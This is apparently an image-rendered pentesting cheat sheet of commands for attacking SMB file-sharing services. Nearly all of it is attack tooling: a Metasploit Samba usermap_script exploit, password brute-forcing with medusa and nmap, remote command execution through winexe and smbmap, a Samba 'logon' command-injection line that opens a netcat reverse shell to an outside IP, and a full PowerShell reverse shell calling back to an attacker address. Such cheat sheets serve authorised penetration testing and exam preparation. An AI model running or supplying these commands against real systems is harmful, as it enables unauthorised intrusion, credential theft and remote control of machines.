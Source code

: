 ```

# Extra validation
msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_validate.rc

# Multi exploits
msfconsole; use exploit/multi/samba/usermap_script; set lhost 192.168.0.X; set rhost 10.11.1.111; run

# Bruteforce login
medusa -h 10.11.1.111 -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt 10.11.1.111  -vvvv
nmap –script smb-brute 10.11.1.111

# nmap smb enum & vuln
nmap --script smb-enum-*,smb-vuln-*,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-protocols -p 139,445 10.11.1.111
nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse -p 139,445 10.11.1.111

# Mount smb volume linux
mount -t cifs -o username=user,password=password //x.x.x.x/share /mnt/share

# rpcclient commands
rpcclient -U "" 10.11.1.111
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall

# Run cmd over smb from linux
winexe -U username //10.11.1.111 "cmd.exe" --system

#smb reverse shell with "logon" cmd
logon "/=`nc 10.10.14.5 4444 -e /bin/bash`"

# smbmap
smbmap.py -H 10.11.1.111 -u administrator -p asdf1234 #Enum
smbmap.py -u username -p 'P@$$w0rd1234!' -d DOMAINNAME -x 'net group "Domain Admins" /domain' -H 10.11.1.111 #RCE
smbmap.py -H 10.11.1.111 -u username -p 'P@$$w0rd1234!' -L # Drive Listing
smbmap.py -u username -p 'P@$$w0rd1234!' -d ABC -H 10.11.1.111 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.X""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' # Reverse Shell
```